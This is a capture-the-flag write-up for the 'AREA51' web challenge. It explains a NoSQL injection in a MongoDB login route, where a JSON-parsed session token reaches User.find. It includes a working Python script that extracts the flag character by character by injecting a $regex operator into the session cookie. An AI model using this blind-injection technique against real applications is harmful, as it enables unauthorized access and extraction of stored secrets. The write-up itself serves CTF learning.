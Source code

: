 # AREA51

Challenge Description:

> Area51 Raid Luxury Consultation Services

> https://area51.chall.pwnoh.io

## Analyzing the website

We have a static page with login fields at the bottom. Seeing the source code, we know it is using `mongodb` nosql queries to authenticate us to the server.

The `/` endpoint in `routes/index.js` has a nosql injection opportunity as there is no validation done on the session token and it also parsed as JSON using the `JSON.parse` function. This token is directly being used in the `User.find` function.

We can use something like `{"$regex": "^bctf{"}` in the token value as the payload and keep incrementing the character till we get the whole flag. The User.find() function will return true as long as the regex is right.

The below dirty script tries to do the same and we get the flag.

```python
import requests

url = "https://area51.chall.pwnoh.io/"
success_snippet = "<marquee><h1>Thank you for understanding!</h1></marquee>"
# Not adding '+' and '*' as the $regex has different meanings for them
printable = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!&(),-=@^}~_'
flag = "bctf{"
status = 0
var = True

while(var):
    for char in printable:

        print(f"Trying char --> {char}")
        payload = f"{flag+char}"
        cookies = {'session' : '{{"token":{{"$regex": "^{}"}},"username":"jumpyWidgeon1"}}'.format(payload)}
        response = requests.get(url, cookies=cookies).text

        if success_snippet in response:
            flag += char
            print(f"Got flag --> {flag}")
            if char == "}":
                print(f"Flag done --> {flag}")
                status = 1
            break

    if(status):
        break
```

## References

1. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-data-information